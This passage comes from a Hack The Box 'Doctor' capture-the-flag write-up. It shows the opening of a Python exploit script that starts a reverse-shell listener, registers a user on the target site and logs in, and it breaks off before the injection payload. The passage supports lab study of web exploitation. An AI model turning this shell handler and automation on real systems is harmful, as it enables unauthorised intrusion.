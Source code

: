 Now, let's automate it. I'll use the same script I used before

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2012:58:23.png)

doctor_ssti_injection.py

Payload which I used on script, omitted because of the rendering page from the blog

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2003:15:58.png)

```py
#!/usr/bin/python3
# Date: 2021-09-03
# Exploit Author: 0x4rt3mis
# Hack The Box - Doctor
# Command Injection Vulnerability

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First we need to create a login on the application
def createLogin(rhost):
	# First get the cookies
	url = "http://%s:80/home" %rhost
	r.get(url,proxies=proxies)
	print("[+] Cookies GOT!! [+]")
	# Now create a new user
	url = "http://%s:80/register" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"username": "0x4rt3mis", "email": "0x4rt3mis@email.com", "password": "teste", "confirm_password": "teste", "submit": "Sign Up"}
	r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
	print("[+] User 0x4rt3mis@email.com created!!!!! [+]")
	
# After create the user, we need to login on the application
def Login(rhost):
	# Now, let's log in the application
	url = "http://doctors.htb:80/login?next=%2Fpost%2Fnew"
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"email": "0x4rt3mis@email.com", "password": "teste", "submit": "Login"}
	login = r.post(url, headers=headers, data=data, cookies=r.cookies, proxies=proxies)
	if "Doctor Secure Messaging" in login.text:
```